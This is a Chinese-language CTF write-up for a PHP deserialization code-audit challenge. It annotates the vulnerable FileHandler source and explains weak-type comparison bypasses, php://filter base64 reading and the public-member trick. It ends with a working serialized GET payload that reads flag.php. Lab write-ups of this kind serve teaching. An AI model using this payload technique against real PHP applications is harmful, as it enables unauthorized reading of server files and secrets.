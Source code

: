 #### 进入题目，便是php的代码
#### 这是一个代码审计题目（序列化和反序列化）
###### 【注】在代码中我已经给出了部分的注释
```php
<?php
// 文件包含
include("flag.php");

highlight_file(__FILE__);

// 阐述FileHandler类
class FileHandler {

    protected $op;
    protected $filename;
    protected $content;
  
    // 构造函数，将op filename content分别赋值为 = "1" "/tmp/tmpfile" "Hello World!"
    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {    // 弱类型比较
            $this->write();       // 进入write函数
        } else if($this->op == "2") {     // 弱类型比较，可用2 == "2"为true来绕过
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);  // file_get_contents() 把整个文件读入一个字符串中，可用文件包含将flag.php读入字符串
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {     // 析构函数
        if($this->op === "2")   // 强类型比较,为了不让op被强制改为1，而又让op为2，可用让op=2
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))    // 判断有无特殊字符等
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);       // 反序列化
    }

}
```

#### 根据上面的分析，我们可以得出以下的内容:
##### 1、str传入的值需要是对于FileHandler的序列化内容
```php
// 序列化的内容可以在自己的电脑上运行出此类的序列化内容
$a = new FileHandler();
echo base64_encode(serialize($a)); // 然后对其结果bae64解密即可，对于加密的原因，由于有时候private和protect类序列化后，肉眼不可见。因此，bae64加密方便我们的复制
```
##### 2、读取文件我们需要进入read函数
##### 3、我们需要进入process函数，并且$this->op == "2"为true
##### 4、在str被反序列化的时候，调用了析构函数，因此我们不能让下面的代码实现
```php
if($this->op === "2")
        $this->op = "1";
```

#### 因此，我们的str的成员赋值为:
```
protect $op = 2;
protect $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
protect $content;
```

#### 由于protect类的成员在序列化的时候是以%00作为标识符，但是会被下面的函数返回false而终止
```php
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
```

#### 下面提供一种方法
##### 对于php>7.1的版本，并不注重public和protect，因此我们可以把上面的三个类成员均改为public
```
public $op = 2;
public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
public $content;
```

#### 至此就可以完成此题目，payload为:
```
?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}
```

